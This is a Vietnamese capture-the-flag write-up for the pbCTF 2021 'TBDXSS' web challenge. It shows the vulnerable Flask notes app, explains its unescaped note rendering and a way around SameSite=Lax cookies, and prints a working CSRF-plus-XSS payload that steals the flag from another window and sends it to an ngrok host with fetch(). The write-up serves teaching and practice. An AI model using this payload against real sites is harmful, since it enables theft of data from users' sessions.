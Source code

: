 # PBCTF-2021
Link archive: `https://github.com/perfectblue/pbCTF-2021-challs`
## TBDXSS

### Source app.py:

```python
from flask import Flask, request, session, jsonify, Response
import json
import redis
import random
import os
import time

app = Flask(__name__)
app.secret_key = os.environ.get("SECRET_KEY", "tops3cr3t")

app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax',
)

HOST = os.environ.get("CHALL_HOST", "localhost:5000")

r = redis.Redis(host='redis')

@app.after_request
def add_XFrame(response):
    response.headers['X-Frame-Options'] = "DENY"
    return response


@app.route('/change_note', methods=['POST'])
def add():
    session['note'] = request.form['data']
    session.modified = True
    return "Changed succesfully"

@app.route("/do_report", methods=['POST'])
def do_report():
    cur_time = time.time()
    ip = request.headers.get('X-Forwarded-For').split(",")[-2].strip() #amazing google load balancer
    last_time = r.get('time.'+ip) 
    last_time = float(last_time) if last_time is not None else 0
    
    time_diff = cur_time - last_time

    if time_diff > 6:
        r.rpush('submissions', request.form['url'])
        r.setex('time.'+ip, 60, cur_time)
        return "submitted"

    return "rate limited"

@app.route('/note')
def notes():
    print(session)
    return """
<body>
{}
</body>
    """.format(session['note'])

@app.route("/report", methods=['GET'])
def report():
    return """
<head>
    <title>Notes app</title>
</head>
<body>
    <h3><a href="/note">Get Note</a>&nbsp;&nbsp;&nbsp;<a href="/">Change Note</a>&nbsp;&nbsp;&nbsp;<a href="/report">Report Link</a></h3>
        <hr>
        <h3>Please report suspicious URLs to admin</h3>
        <form action="/do_report" id="reportform" method=POST>
        URL: <input type="text" name="url" placeholder="URL">
        <br>
        <input type="submit" value="submit">
        </form>
    <br>
</body>
    """

@app.route('/')
def index():
    return """
<head>
    <title>Notes app</title>
</head>
<body>
    <h3><a href="/note">Get Note</a>&nbsp;&nbsp;&nbsp;<a href="/">Change Note</a>&nbsp;&nbsp;&nbsp;<a href="/report">Report Link</a></h3>
        <hr>
        <h3> Add a note </h3>
        <form action="/change_note" id="noteform" method=POST>
        <textarea rows="10" cols="100" name="data" form="noteform" placeholder="Note's content"></textarea>
        <br>
        <input type="submit" value="submit">
        </form>
    <br>
</body>
    """
```

### Phân tích

Cookie được set một số biện pháp bảo mật:

```python
app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax',
)
```

Trong cookie khi send note: `set-cookie: session=eyJub3RlIjoidGVzdCBub3RlIn0.YWTZlQ.MDGimiI7SXUoUtHs1OtP-xATZyA; Secure; HttpOnly; Path=/; SameSite=Lax`

Khi thực hiện change note thì note sẽ đưuọc lưu vào session:
```python
@app.route('/change_note', methods=['POST'])
def add():
    session['note'] = request.form['data']
    session.modified = True
    return "Changed succesfully"
```

Request đến route note thì nó sẽ in ra note đã lưu mà không escape gì:

```python
@app.route('/note')
def notes():
    print(session)
    return """
<body>
{}
</body>
    """.format(session['note'])
```

Vậy ý tưởng ở đây là CSRF admin bot như sau:
- Để admin bot thực thi change_note thành nội dung chứa mã xss.
- Điều hướng admin bot đến route note để gửi flag về server của mình.

Bây giờ, ta có vấn đề với `SameSite=Lax` như sau:
- Làm sao để gửi request change_note kèm cookie?

`SameSite=Lax` có hai kiểu:
- Một là nếu chúng ta không set SameSite, browser sẽ tự động set `SameSite=Lax`. Tuy nhiên ta vẫn có thể sử dụng post trong form của html kèm cookie trong 2 phút đầu khi truy cập site. Và điều hướng cấp cao hơn như window.open.
- Hai là máy chủ set `SameSite=Lax` trực tiếp, khi đó ta chỉ có thể gửi kèm cookie bằng điều hướng cao nhất là window.open.

Do đó, ở đây ta có thể sử dụng phương pháp window.open:
```html

```

### Exploit

Tham khảo payload trên [ctftime](https://ctftime.org/writeup/30882):
```html
<body>
    <p>hello world</p>
    <form action="https://tbdxss.chal.perfect.blue/change_note" id="noteform" method=POST target="_blank">
        <textarea id="payload" rows="10" cols="100" name="data" form="noteform"></textarea>
        <input type="submit" value="submit">
    </form>
    <script>
        window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');

        // this POSTs the above form with an XSS note value to read and exfiltrate the flag
        // note: we must use \x3C as an alternate form of the "less than" character to avoid
        //       browser parser confusion inside
        payload.value = "\x3Cscript>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://8709-68-51-145-201.ngrok.io/?flag=' + flag);\x3C/script>";
        noteform.submit();

        // Run this code after a 5 second delay to ensure the above POST has completed
        // before we reload our XSS payload into *this* page.
        setTimeout(()=> {
            // This loads our previously-posted XSS which will read the flag from the
            // previously-opened window and exfiltrate it.
            window.location.href = 'https://tbdxss.chal.perfect.blue/note';
        }, 5000)
        //<img src="some-url-that-takes-5-seconds-and-then-returns-a-404" onerror="window.location.href = 'https://tbdxss.chal.perfect.blue/note'">
    </script>
</body>
```

Giải thích payload trên:
* Khởi tạo một form.
* Đầu tiên cờ đã chứa trên trang `https://tbdxss.chal.perfect.blue/note` nên sẽ thực hiện mở cửa sổ `window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');`
* Tiếp theo submit form với payload trên.
* Bây giờ nếu bot truy cập đến `https://tbdxss.chal.perfect.blue/note` thì sẽ bị trigger xss. Nên ta đặt một `window.location.href = 'https://tbdxss.chal.perfect.blue/note';` với setTimeout để chắc chắn rằng đoạn phía trên thực thi xong rồi mới truy cập.

CSRF skills:
```js
window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');//Tạo một cửa sổ mới với tên là flagWindow
window.open('', 'flagWindow');//Đi đến cửa số đó.
```

`\x3Cscript>` Tránh browser parse gây lỗi.

Nếu như ta `let flagWindow = window.open('', 'flagWindow');` thì nó không đi đến cửa sổ, nó sẽ vẫn ở cửa sổ hiện tại tuy nhiên có thể thao tác với tab flagWindow, ta lợi dụng điều này để exiltrate data.

`flagWindow.document.documentElement.innerText` Hoặc có thể sử dụng `window.document.body.textContent` hoặc `flagWindow.document.body.innerText`: Lấy ra toàn bộ text trong DOM của cửa sổ flagWindow. Bài này cờ được gắn trong note nên lấy ra innerText là được. 

`window.location.href = 'https://tbdxss.chal.perfect.blue/note';` Điều hướng đến trang `https://tbdxss.chal.perfect.blue/note`.